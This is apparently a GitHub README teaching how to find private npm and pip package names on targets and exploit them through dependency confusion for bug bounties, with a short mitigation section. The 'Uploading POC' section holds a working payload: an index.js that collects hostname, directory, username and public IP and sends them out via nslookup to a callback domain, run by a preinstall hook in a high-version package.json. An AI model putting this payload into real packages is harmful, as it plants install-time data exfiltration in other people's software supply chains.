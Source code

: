 # All About Dependency Confusion Attack, (Detecting, Finding, Mitigating)

## Table of content:

- [About dependency confusion attack](#about-dependency-confusion-attack)
- [How npm works and understanding package system, version, scope packages, etc.](#how-npm-and-similar-package-system-work-and-understanding-its-structure-and-more)
- [Detecting private package](#detect-private-pip-and-npm-packages)
- [Automation with bash](#automating-with-bash-to-find-private-packages)
- [Manual Hunting](#manual-hunting-to-find-more-packages)
- [Setting up bind9 DNS server](#setting-up-bind9-dns-server)
- [Uploading POC](#uploading-poc)
- [Mitigation](#mitigation)
- [Bounty Transparency](#bounty-transparency)



## About dependency confusion attack:
When you put `pip install -r requirements.txt` in your terminal did you check the package that you currently installing is not in the public repository? Or did someone put a backdoor on this package that you install blindly? How do you trust pypi? Is there anything that can harm your machine which is protected by firewall? 
Well, you might wonder how you can easily get hacked for running this command in your terminal! I'm not going to explain how this occurs, there is a great article about [Dependency Confusion](https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610) by [alex birsan](https://twitter.com/alxbrsn)! But I can't resist giving you a simple explanation about the dependency confusion attack! 
Suppose you had a project called `A` which completely depends on react packages as you might hear of some third-party react component packages that are currently used by lots of companies for their development process, (for example `react-router`) which means your current project heavily depends on some third-party module! Now Imagine you got a new job at this company and your previous colleague didn’t tell you about his project but did give you a file called `package.json` with a bunch of js files and you know what to do with that just simple command `npm -i` and You're good to go. But did you know that there might be some private packages that your senior developer didn’t allow you to disclose in public? So what will happen when you put `npm -i` in your terminal if this package is claimed by a malicious actor? Yeah, that's the simple explanation of dependency confusion attack!


## How npm and similar package system work and understanding its structure and more:

npm stands for node package manager which is used for storing your project dependency as public. But npm also allows you to install packages from your local package manager which is private, which means these packages are restricted from public users, just an internal user or specific traffic can install these packages for development purposes! And also these packages didn’t exist in public npm [registry](https://registry.npmjs.com), this works fine until you accidentally forget to mention the install path in your cli file.
but in pip, these are completely different as pip checks for higher versions if put the `--extra-index` flag for your installation, like if you put `--extra-index` when you install pip packages through your terminal eg:`pip install -r requirements.txt --extra-index-url` then pip will first check which repository contains a higher version of this package. if pip sees that your local registry contains a higher version then pip will install this instead of a public one. Now imagine you accidentally leak your private pip package name Through github repo and attacker claim these packages and includes 2000.0.0 as the package version but in your local registry this package version is like 2.0.1 what will happen? well, pip priorities a higher version if you include the `--extra-index-url` flag so pip will install this package from a public instead of a private repository, as pip sees this version is higher than your local version. You can read how pip works in this blog [post](https://realpython.com/what-is-pip/), also if you want to read how the version work in npm please read this [article](https://stackoverflow.com/questions/22343224/whats-the-difference-between-tilde-and-caret-in-package-json).as my research is ongoing on other package system so I can't tell you enough for this! I will add them here.


## Detect private pip and npm packages:

This is so easy for npm normal packages, just visit `https://npmjs.com/package/YOUR-PACKAGE-NAME-HERE and for scope packages`, let me tell you what is exactly it means 'if you have seen an npm package name like this `@test/example-packages` that means every package are started with `@` and divided by `\` the first part of `\` is scopes name and the second part is actual packages name so if you found this type of package name in your finding, you have to check whether this scope name is claimed in a public repository or not, for that visit this `https://npmjs.com/org/SCOPE-NAMES-HERE` if this shows you 404 that's means this is unclaimed scope name! So for uploading POC packages on npmjs, you have to create an org name first then update this name to your package.json file like this `@org/package-name-here`, and for pip just [visit](https://pypi.org/)



## Automating with bash to find private packages:

Download this `npm-automation.sh` file and run this command in your terminal `bash automate-bash.sh <target domain>` make sure you have installed [tomnomnom's waybackurls](https://github.com/tomnomnom/waybackurls) and [hacker_'s gau](https://github.com/lc/gau) in your machine.



## Manual hunting to find more packages:

- Using Github:
in GitHub you can visit every repo to see if there is any of these filenames exist, like for npm `package.json`,`yarn.lock`,`package-lock.json`,`yarn-error.log`. For pip `requirements.txt`, `requirement-dev.txt`,`requirement-prod.txt`. 
- Using Devtools:
open your firefox browser and visit your target domain/subdomain ==> right click ==> inspect ==> go to `Debugger` ==> try to find `Webpack` directory (if your target used webpack, otherwise you may not see anything) ==> in `Webpack` directory you will see `node_modules` folder and every subfolder name of `node_modules` folder is actually an npm package.
- JS file:
js file is so boring to read, but if you already know what an npm package name looks like, you may able to spot them within js file. (this needs practice)



## Setting-up bind9 DNS server:
follow these videos and repo
[Github repo](https://github.com/JuxhinDB/OOB-Server)
[DigitalOcean + Namecheap](https://www.youtube.com/watch?v=iMSqT9MZbQs),
[AWS + Godaddy](https://www.youtube.com/watch?v=p8wbebEgtDk),


## Uploading POC:
please follow this video on my youtube channel.

in this folder `src/poc`, edit `index.js` file. replace `niroborg-npm-com-test` with your target package name. also `bind9-or-callback-server.com` to your callback DNS server.
```javascript
const { exec } = require("child_process");
exec("a=$(hostname;pwd;whoami;echo 'niroborg-npm-com-test';curl https://ifconfig.me;) && echo $a | xxd -p | head | while read ut;do nslookup $a.bind9-or-callback-server.com;done" , (error, data, getter) => {
	if(error){
		console.log("error",error.message);
		return;
	}
	if(getter){
		console.log(data);
		return;
	}
	console.log(data);
	
});
```
and in `package.json` file, replace `test-npm-com-test` with your target package name. then define the version name. it is recommended that you should upload multiple package versions when you upload the npm package because npm uses a special version system. [read more](https://stackoverflow.com/questions/22343224/whats-the-difference-between-tilde-and-caret-in-package-json)
```json
{
  "name": "test-npm-com-test",
  "version": "1.999.0",
  "description": "",
  "main": "main.js",
  "scripts": {
    "preinstall": "node index.js > /dev/null 2>&1",
    "test": "echo \"Error: no test specified\" && exit 1"
  },
  "author": "lexi2",
  "license": "ISC",
  "dependencies": {
    "lodash": "^4.17.21"
  }
}

```
please follow this [video](https://youtu.be/GJSvEAJeqko) on my youtube channel.
## Mitigation:
Scan your project dependency with [confused](https://github.com/visma-prodsec/confused) by [@visma-prodsec](https://github.com/visma-prodsec)

(I have my own scanner just for npm, and I think [confused](https://github.com/visma-prodsec/confused) is really cool as they add a bunch of other package managers for scanning)
## Bounty Transparency:
- $2000 from Shein (goes public)
- $2000 from an outside bug bounty program (closed)
- $1500 from Bugcrowd private program (closed)
- $1250 from Bugcrowd private program (ongoing)
- $1000 from an outside bug bounty(self-hosted)
- $1000 from Comcast Cable. (closed)
- $700 from an outside bug bounty program(self-hosted)
- $500 from an outside bug bounty program(self-hosted)
- $250 from Bugcrowd private program (closed)
## Shoutouts:
- [@alxbrsn](https://twitter.com/alxbrsn) for his amazing [research](https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610) , without his research, nothing would have been possible.
- [@Stok](https://twitter.com/stokfredrik) for his amazing [video](https://www.youtube.com/watch?v=p8wbebEgtDk) about setting-up bind9 dns server (using GoDaddy + aws)
- [@juxhindb](https://twitter.com/juxhindb) for his amazing github [repo](https://github.com/JuxhinDB/OOB-Server)
- [@nigamelastic](https://twitter.com/nigamelastic) for his amazing [video](https://www.youtube.com/watch?v=iMSqT9MZbQs) about setting-up bind9 dns server(using Namecheap + digitalocean)
- [@tomnomnom](https://twitter.com/tomnomnom) for his powerful archive URL fetching tool [waybackurls](github.com/tomnomnom/waybackurls)
- [@hacker_](https://twitter.com/hacker_) for his powerful archive URL fetching tool [gau](github.com/lc/gau)
- [@visma-prodsec](https://github.com/visma-prodsec) for their powerfull dependency scanner [confused](https://github.com/visma-prodsec/confused)

## Useful?

<a href="https://buymeacoff.ee/x1337loser" target="_blank"><img src="https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png" alt="Buy Me A Coffee" style="height: 41px !important;width: 174px !important;box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;-webkit-box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;" ></a>

<a href="https://archive.org/donate">Donate to the InternetArchive</a>
